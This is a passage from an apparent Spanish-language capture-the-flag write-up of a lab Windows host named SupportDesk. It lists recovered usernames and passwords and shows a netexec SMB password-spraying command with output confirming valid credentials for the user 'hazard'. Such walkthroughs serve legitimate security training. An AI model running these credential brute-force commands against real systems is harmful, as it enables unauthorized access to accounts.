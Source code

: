Realizaremos el mismo proceso con la última contraseña que nos queda, también logramos obtener las credenciales válidas.

<figure><img src="../../../.gitbook/assets/imagen (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## Initial Access

### Netexec Brute Force Password

Dispnemos del siguiente listado de usuarios y contraseñas que hemos encontrado anteriormente.

```bash
❯ cat users.txt
rout3r
admin
hazard

❯ cat passwords.txt
stealth1agent
Q4)sJu\Y8qz*A3?d
$uperP@ssword
```

A través de la herramienta de **nxc** realizaremos fuerza bruta para verificar si alguna de las credenciales son válidas para algún usuario. Logramos validar las credenciales del usuario `hazard`.

```bash
❯ nxc smb 10.10.10.149 -u users.txt -p passwords.txt --continue-on-success
SMB         10.10.10.149    445    SUPPORTDESK      [*] Windows 10 / Server 2019 Build 17763 x64 (name:SUPPORTDESK) (domain:SupportDesk) (signing:False) (SMBv1:False)
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\rout3r:stealth1agent STATUS_LOGON_FAILURE 
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\admin:stealth1agent STATUS_LOGON_FAILURE 
SMB         10.10.10.149    445    SUPPORTDESK      [+] SupportDesk\hazard:stealth1agent 
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\rout3r:Q4)sJu\Y8qz*A3?d STATUS_LOGON_FAILURE 
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\rout3r:$uperP@ssword STATUS_LOGON_FAILURE 
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\admin:$uperP@ssword STATUS_LOGON_FAILURE 
```
